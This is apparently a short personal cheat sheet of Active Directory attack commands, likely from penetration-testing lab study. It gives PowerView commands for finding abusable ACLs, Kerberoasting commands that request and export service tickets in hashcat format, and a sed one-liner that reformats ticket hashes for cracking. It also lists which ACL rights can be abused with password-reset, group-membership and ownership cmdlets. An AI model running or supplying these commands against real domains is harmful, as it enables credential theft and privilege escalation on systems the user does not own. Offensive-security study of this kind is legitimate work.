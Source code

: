 
![[UAC-values.png]]

Find your ACLs

```powershell

Import-Module powerview

Find-InterestingDomainAcl

```

Append to .kirbi to feed it to hashcat

```BASH

sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat

```

Ezyest way lol

```powershell
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```




ACLs


    ForceChangePassword abused with Set-DomainUserPassword
    Add Members abused with Add-DomainGroupMember
    GenericAll abused with Set-DomainUserPassword or Add-DomainGroupMember
    GenericWrite abused with Set-DomainObject
    WriteOwner abused with Set-DomainObjectOwner
    WriteDACL abused with Add-DomainObjectACL
    AllExtendedRights abused with Set-DomainUserPassword or Add-DomainGroupMember
    Addself abused with Add-DomainGroupMember

![[ACL_attacks_graphic.webp]]
From SPN to user

```Powershell

Get-ADUser -Filter {ServicePrincipalName -like "*<SPN>*"} -Properties ServicePrincipalName | Select-Object Name, SamAccountName, ServicePrincipalName

```


Export all Krbtgt tickets to CSV file 

```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```
